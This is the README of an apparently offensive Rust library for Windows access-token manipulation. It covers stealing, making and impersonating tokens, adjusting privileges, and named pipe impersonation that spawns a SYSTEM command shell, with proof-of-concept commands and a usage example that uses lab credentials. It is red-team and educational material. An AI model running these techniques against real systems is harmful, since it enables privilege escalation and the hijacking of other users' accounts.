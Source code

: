 ## Impersonate

A simple library that allows you to steal/make/impersonate tokens of a process and set/get token privileges.

## How token make/steal/impersonate token works

### Steal Token

The `steal_token()` function attempts to retrieve a duplicated access token associated with a process, given its process ID. If successful, it returns a handle to the duplicated token, otherwise it returns an error indicating the reason for failure.

1. Calls the `OpenProcess` function to retrieve a handle to an existing local process.
2. Calls the `OpenProcessToken` function to retrieve a handle to the access token associated with the process.
3. Calls the `DuplicateTokenEx` function to create a new access token that duplicates the original one.

### Make Token

The `make_token()` function attempts to authenticate a user with a given `domain`, `username`, and `password` by calling the `LogonUserW` function. If successful, it returns a handle to a token that represents the logged-on user, which can be used to impersonate the specified user or create a process that runs in the context of the specified user.

1. Calls the `LogonUserW` to log the user onto the local computer. If the logon is successful, the function returns the token handle.

### Impersonate Token

This `impersonate_token` function allows the calling thread to impersonate the security context of a logged-on user, represented by a token handle. This can be useful for performing actions on behalf of another user, such as accessing files or resources that are only available to that user.

1. Calls the `ImpersonateLoggedOnUser` function which allows the calling thread to temporarily take on the security context of the logged-on user. If the function call is successful, it returns the token handle

### Set Token Privileges

The `set_token_privileges` function takes a privilege name and a boolean value to either enable or disable that privilege in the current process's access token. It first looks up the locally unique identifier (`LUID`) for the specified privilege name using the `LookupPrivilegeValueW` function. Then, it constructs a `TOKEN_PRIVILEGES` structure with the `LUID` and the desired attributes (enabled or disabled). The function then opens the process's access token using the `OpenProcessToken` function and calls the `AdjustTokenPrivileges` function to adjust the privileges in the token.

1. Calls the `LookupPrivilegeValueW` function to look up the locally unique identifier (`LUID`) for the specified privilege name
2. Constructs a `TOKEN_PRIVILEGES` structure with the `LUID`
3. Calls `OpenProcessToken` to opens the process's access token
4. Calls the `AdjustTokenPrivileges` function to adjust the privileges in the token.

### Get Token Privileges (TODO)


### Named Pipe Token Impersonation

Windows operating systems use Pipe Token Impersonation to let a process execute in the security context of a different user. It requires passing security tokens back and forth between processes through a named pipe, which is Windows' method for interprocess communication.

With the security token linked to the client process, the server process can mimic the client process when a client process connects to it over a named pipe. This implies that the server process does not need the same level of permissions as the client process to access resources that are only accessible to the client process, such as files or network resources.


This `impersonate_named_pipe` creates a named pipe with a specified name, waits for a client to connect, reads data from the client through the pipe, impersonates the client by duplicating its security token, and uses the duplicated token to create a new process with elevated privileges. The process it creates with elevated privileges is a new cmd.exe command shell program instance.


1.  `CreateNamedPipeA`: Creates an instance of a named pipe and returns a handle for subsequent pipe operations.
2.  `ConnectNamedPipe`: Enables a named pipe server process to wait for a client process to connect to an instance of a named pipe.
3.  `ImpersonateNamedPipeClient`: Impersonates a named pipe client application.
4.  `OpenThreadToken()`: Opens the access token associated with a thread.
5.  `DuplicateTokenEx`: Creates a new access token that duplicates an existing token.
6.  `CreateProcessWithTokenW`: Creates a new process and its primary thread using the specified token.

Create a named pipe, wait for the client process to connect to an instance of a named pipe.
```
C:\Users\memN0ps\Documents\GitHub\arsenal-rs\token\target\debug\token.exe
```

Run the following as `NT AUTHORITY\SYSTEM` to connect to an instance of the named pipe or coerce a target to connect to you.
```
echo "lol" > \\.\pipe\test
```

You should now see a new SYSTEM shell. (PoC done).

![](poc.png)


## Usage Example

```rust
mod process;
mod token;
use crate::token::{make_token, set_token_privileges, steal_token};
use token::{impersonate_named_pipe, impersonate_token, revert_to_self};
use windows_sys::Win32::System::SystemServices::{
    SE_ASSIGNPRIMARYTOKEN_NAME, SE_DEBUG_NAME, SE_IMPERSONATE_NAME,
};
mod privileges;

fn main() {
    env_logger::init();

    match named_pipe_impersonation() {
        Ok(_) => log::info!("named_pipe_impersonation success!"),
        Err(e) => log::error!("Error: named_pipe_impersonation failed {:?}", e),
    }

    match token_magic_test() {
        Ok(_) => log::info!("token_magic_test success!"),
        Err(e) => log::error!("Error: token_magic_test failed {:?}", e),
    }

    match process_magic_test() {
        Ok(_) => log::info!("process_magic_test success!"),
        Err(e) => log::error!("Error: process_magic_test failed {:?}", e),
    }
}

pub fn token_magic_test() -> Result<(), token::error::Error> {
    set_token_privileges(SE_DEBUG_NAME, true)?;
    set_token_privileges(SE_ASSIGNPRIMARYTOKEN_NAME, true)?;

    let duplicate_token = steal_token(10608)?;
    log::info!("{}", duplicate_token);
    impersonate_token(duplicate_token)?;
    revert_to_self()?;

    let token = make_token("north.sevenkingdoms.local", "robb.stark", "sexywolfy")?;
    log::info!("{}", token);
    impersonate_token(token)?;
    revert_to_self()?;

    Ok(())
}

pub fn process_magic_test() -> Result<(), process::error::Error> {
    let process_id = process::get_process_id_by_name("notepad.exe")?;
    let module_id = process::get_module_address_by_name("kernel32.dll", process_id)?;

    log::info!("process_id: {}", process_id);
    log::info!("Module ID: {:x}", module_id);

    Ok(())
}

pub fn named_pipe_impersonation() -> Result<(), token::error::Error> {
    //set_token_privileges(SE_IMPERSONATE_NAME, true)?;
    impersonate_named_pipe("test")?;
    Ok(())
}
```

## Credits / References

* [C5pider](https://twitter.com/C5pider): https://github.com/HavocFramework/Havoc
* [zblurx](https://twitter.com/_zblurx): https://github.com/zblurx/impersonate-rs (This is similar but does not have named pipe impersonation or make_token functionality. It's also a binary and not a library).
* This project was dedicated to [@_RastaMouse](https://twitter.com/_RastaMouse)
* https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/named-pipe-client-impersonation
* https://github.com/rapid7/metasploit-payloads/blob/master/c/meterpreter/source/extensions/priv/namedpipe.c